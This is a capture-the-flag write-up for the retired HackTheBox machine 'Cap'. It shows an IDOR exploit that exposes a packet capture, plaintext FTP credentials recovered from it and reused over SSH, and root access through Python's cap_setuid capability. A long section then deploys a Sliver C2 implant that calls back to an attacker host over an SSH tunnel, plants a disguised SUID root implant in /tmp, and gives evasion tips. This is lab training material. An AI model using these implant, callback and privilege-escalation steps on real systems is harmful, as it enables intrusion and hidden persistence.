


# Cap - HackTheBox


## Machine Info

| Property | Value |
|----------|-------|
| Name | Cap |
| OS | Linux |
| Difficulty | Easy |
| Release Date | June 2021 |
| Status | **Retired** |
| IP | 10.129.3.86 |

## Skills Required

- Web Application Enumeration
- PCAP Analysis
- Basic Linux

## Skills Learned

- IDOR (Insecure Direct Object Reference) vulnerability exploitation
- Network traffic analysis with tcpdump
- Linux capabilities enumeration
- Python capability-based privilege escalation
- Sliver C2 framework for post-exploitation

## Summary

Cap is an Easy-rated Linux machine that demonstrates IDOR vulnerabilities and Linux capabilities-based privilege escalation. The machine features a security dashboard web application that allows downloading packet captures. By exploiting an IDOR vulnerability, credentials can be extracted from network traffic. The privilege escalation leverages Python's `cap_setuid` capability to gain root access.

## Initial Access

### Reconnaissance

```bash
nmap -sV -sC -p- 10.129.3.86
```

**Open Ports:**
- 21/tcp - FTP (vsftpd 3.0.3)
- 22/tcp - SSH (OpenSSH 8.2p1 Ubuntu)
- 80/tcp - HTTP (Gunicorn)

### Web Application Analysis

The web application is a "Security Dashboard" running on Gunicorn with the following endpoints:
- `/` - Dashboard
- `/capture` - Security Snapshot (5 Second PCAP + Analysis)
- `/ip` - IP Config
- `/netstat` - Network Status

### IDOR Vulnerability

The `/capture` endpoint redirects to `/data/<id>` where packet captures can be downloaded. Testing for IDOR:

```bash
curl -s http://10.129.3.86/download/0 -o 0.pcap
```

The application does not properly validate authorization for PCAP file access. ID `0` contains network traffic with sensitive data.

### Credential Extraction

Analyzing the PCAP file reveals FTP credentials in plaintext:

```bash
tcpdump -r 0.pcap -A 2>/dev/null | grep -i -A 5 -B 5 'USER\|PASS'
```

**Credentials Found:**
```
USER nathan
PASS Buck3tH4TF0RM3!
```

### SSH Access

The FTP credentials are reused for SSH access:

```bash
ssh nathan@10.129.3.86
# Password: Buck3tH4TF0RM3!
```

**User Flag:** `c7fe401a6b7ea7abed7206da99b45c99`

## Privilege Escalation

### Enumeration

Checking for Linux capabilities:

```bash
getcap /usr/bin/python3.8
```

**Output:**
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Python3.8 has the `cap_setuid` capability, allowing it to change the effective user ID.

### Exploitation

The `cap_setuid` capability allows Python to execute `setuid(0)` to become root:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Root Flag:** Obtained

## Post-Exploitation with Sliver C2

### Network Routing Setup

For post-exploitation practice with Sliver C2, network routing was configured to bridge the HTB network with the lab infrastructure.

#### Network Topology



#### Architecture Overview



#### Traffic Flow Breakdown

**Callback Traffic (Target → C2):**


**Command Flow (C2 → Target):**


**Key Points:**

1. **Initial Callback:** Implant on Cap connects to `10.10.15.1:443` (Kali's HTB VPN IP)
2. **SSH Tunnel:** Kali forwards `10.10.15.1:443` → `127.0.0.1:4443` → `192.168.36.209:4443`
3. **Bidirectional:** SSH tunnel allows commands to flow back to Cap target
4. **Double Encryption:** MTLS (Sliver) + SSH tunnel encryption

#### Network Configuration

**Kali Machine:**
- **eth0:** `192.168.36.172` (lab network)
- **tun0:** `10.10.15.1` (HTB VPN)
- **SSH Tunnel:** Binds to `10.10.15.1:443`, forwards to `192.168.36.209:4443`

**Sliver Server:**
- **IP:** `192.168.36.209`
- **Listener:** `0.0.0.0:4443` (MTLS)
- **Access:** Only accepts connections from `127.0.0.1` (via SSH tunnel)

**Cap Target:**
- **IP:** `10.129.3.86` (HTB network)
- **Route:** Connects to `10.10.15.1` via HTB VPN gateway
- **Implant:** Configured to connect to `10.10.15.1:443`

#### Why This Architecture?

**Problem:**
- Cap target (`10.129.3.86`) is on HTB network
- Sliver server (`192.168.36.209`) is on lab network
- These networks cannot directly communicate

**Solution:**
- Kali machine has access to BOTH networks
- SSH tunnel acts as a bridge between networks
- Traffic is encrypted at two layers:
  - MTLS (Sliver protocol)
  - SSH tunnel (transport layer)

**Benefits:**
- ✓ Centralized C2 server (not on Kali)
- ✓ Double encryption (MTLS + SSH)
- ✓ Can support multiple operators
- ✓ Easier logging and session management
- ✓ Separates attack infrastructure from VPN endpoint

**SSH Tunnel Command:**
```bash
ssh -f -N -L 10.10.15.1:443:127.0.0.1:4443 debian@192.168.36.209
```

### Sliver Implant Deployment

**Generate implant:**
```
mtls -L 0.0.0.0 -l 4443
generate --mtls 10.10.15.1:443 --os linux --arch amd64 --save /tmp/htb_implant --skip-symbols
```

**Transfer and execute:**
```bash
scp /tmp/htb_implant nathan@10.129.3.86:/tmp/htb_implant
ssh nathan@10.129.3.86 'chmod +x /tmp/htb_implant && /tmp/htb_implant &'
```

### OPSEC-Safe Enumeration

Using Sliver's `execute` command for non-interactive enumeration:

```
use <session-id>
execute -o getcap /usr/bin/python3.8
execute -o id
```

**Output:**
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

### Obtaining Root Shell via Sliver (OPSEC-Safe Method)

#### Step 1: Create SUID Implant Script

On the Sliver server, create a script to copy the implant with SUID bit:

```bash
cat > /tmp/mk_suid.py << 'EOF'
import os
import shutil

os.setuid(0)
shutil.copy("/tmp/htb_implant", "/tmp/.sysupdate")
os.chmod("/tmp/.sysupdate", 0o4755)
os.chown("/tmp/.sysupdate", 0, 0)
print("SUID implant created")
EOF
```

#### Step 2: Fix Implant Permissions

The implant initially has execute-only permissions. Make it readable:

```
execute -o chmod 755 /tmp/htb_implant
```

#### Step 3: Upload and Execute SUID Creation Script

```
upload /tmp/mk_suid.py /tmp/mk_suid.py
execute -o /usr/bin/python3.8 /tmp/mk_suid.py
```

Verify the SUID implant was created:

```
execute -o -- ls -la /tmp/.sysupdate
```

**Output:**
```
-rwsr-xr-x 1 root nathan 17207231 Mar 10 04:06 /tmp/.sysupdate
```

#### Step 4: Create Root Execution Wrapper

SUID binaries don't automatically elevate the Sliver implant. Create a wrapper that uses Python's `cap_setuid` to become root before executing the implant:

```bash
cat > /tmp/root_exec.py << 'EOF'
import os

# Escalate to root using cap_setuid
os.setuid(0)

# Execute the implant with root privileges
os.execve("/tmp/.sysupdate", ["/tmp/.sysupdate"], os.environ)
EOF
```

#### Step 5: Execute Wrapper for Root Callback

```
upload -o /tmp/root_exec.py /tmp/root_exec.py
execute /usr/bin/python3.8 /tmp/root_exec.py &
```

Wait a few seconds for the callback.

#### Step 6: Verify Root Session

```
sessions
```

**Output:**
```
ID         Transport   Remote Address         Hostname   Username   Operating System   Health  
========== =========== ====================== ========== ========== ================== =========
50f252d6   mtls        127.0.0.1:37108        cap        nathan     linux/amd64        [ALIVE] 
a1b2c3d4   mtls        127.0.0.1:59474        cap        root       linux/amd64        [ALIVE]
```

#### Step 7: Interact with Root Session

```
use <root-session-id>
getuid
whoami
execute -o cat /root/root.txt
```

**Root Flag:** Obtained

## Complete OPSEC-Safe Attack Chain

### Summary of Commands

**Initial Access:**
```bash
# Reconnaissance
nmap -sV -sC -p- 10.129.3.86

# IDOR Exploitation
curl -s http://10.129.3.86/download/0 -o 0.pcap

# Credential Extraction
tcpdump -r 0.pcap -A 2>/dev/null | grep -i -A 5 -B 5 'USER\|PASS'

# SSH Access
ssh nathan@10.129.3.86
# Password: Buck3tH4TF0RM3!
cat user.txt
```

**Sliver C2 Setup:**
```bash
# On Sliver Server
mtls -L 0.0.0.0 -l 4443
generate --mtls 10.10.15.1:443 --os linux --arch amd64 --save /tmp/htb_implant --skip-symbols

# On Kali (SSH tunnel for network routing)
ssh -f -N -L 10.10.15.1:443:127.0.0.1:4443 debian@192.168.36.209

# Transfer implant
scp /tmp/htb_implant nathan@10.129.3.86:/tmp/htb_implant
ssh nathan@10.129.3.86 'chmod +x /tmp/htb_implant && /tmp/htb_implant &'
```

**Privilege Escalation (Sliver):**
```bash
# In Sliver console
use <session-id>
execute -o getcap /usr/bin/python3.8
execute -o chmod 755 /tmp/htb_implant

# Create SUID script on Sliver server
cat > /tmp/mk_suid.py << 'EOF'
import os
import shutil
os.setuid(0)
shutil.copy("/tmp/htb_implant", "/tmp/.sysupdate")
os.chmod("/tmp/.sysupdate", 0o4755)
os.chown("/tmp/.sysupdate", 0, 0)
print("SUID implant created")
EOF

# Upload and execute
upload /tmp/mk_suid.py /tmp/mk_suid.py
execute -o /usr/bin/python3.8 /tmp/mk_suid.py
execute -o -- ls -la /tmp/.sysupdate

# Create root wrapper on Sliver server
cat > /tmp/root_exec.py << 'EOF'
import os
os.setuid(0)
os.execve("/tmp/.sysupdate", ["/tmp/.sysupdate"], os.environ)
EOF

# Execute wrapper for root callback
upload -o /tmp/root_exec.py /tmp/root_exec.py
execute /usr/bin/python3.8 /tmp/root_exec.py &

# Verify root access
sessions
use <root-session-id>
getuid
execute -o cat /root/root.txt
```

## Key Takeaways

1. **IDOR vulnerabilities** can expose sensitive data - always test sequential IDs
2. **Network traffic analysis** can reveal cleartext credentials in PCAP files
3. **Linux capabilities** provide an alternative to traditional SUID privilege escalation
4. **OPSEC considerations** in post-exploitation:
   - Avoid interactive shells (`shell` command)
   - Use `execute` for single commands to minimize process artifacts
   - SUID binaries don't auto-escalate - need wrapper scripts
   - Use `upload` instead of external file transfers
5. **Network pivoting** is essential when C2 infrastructure is not directly reachable from target
6. **Python capabilities** (`cap_setuid`) can be leveraged multiple ways:
   - Direct root shell: `python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
   - Create SUID binaries: Use `os.setuid(0)` before file operations
   - Wrap execution: Escalate before calling `os.execve()`

## Attack Path Summary

1. **Enumeration** - Discovered web application with PCAP download functionality
2. **IDOR Exploitation** - Accessed PCAP file ID 0 without authorization
3. **Credential Extraction** - Found FTP credentials in plaintext network traffic
4. **Initial Access** - SSH authentication with reused credentials
5. **Capabilities Enumeration** - Identified Python with `cap_setuid` capability
6. **Privilege Escalation** - Used Python's setuid capability to become root
7. **Post-Exploitation** - Deployed Sliver C2 implant for operational practice

## Services Discovered

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 |
| 80 | HTTP | Gunicorn |

## CVEs & Vulnerabilities

| Type | Description |
|------|-------------|
| IDOR | Insecure Direct Object Reference in `/download/<id>` endpoint |
| Cleartext Credentials | FTP credentials transmitted without encryption |
| Excessive Capabilities | Python binary with `cap_setuid` capability |

## Tools Used

- `nmap` - Port scanning
- `curl` - Web enumeration
- `tcpdump` - PCAP analysis
- `ssh` - Remote access
- `getcap` - Linux capabilities enumeration
- `Sliver` - Command and Control framework

## Tags

`linux` `easy` `idor` `pcap` `credentials` `capabilities` `cap_setuid` `python` `sliver` `c2` `post-exploitation`
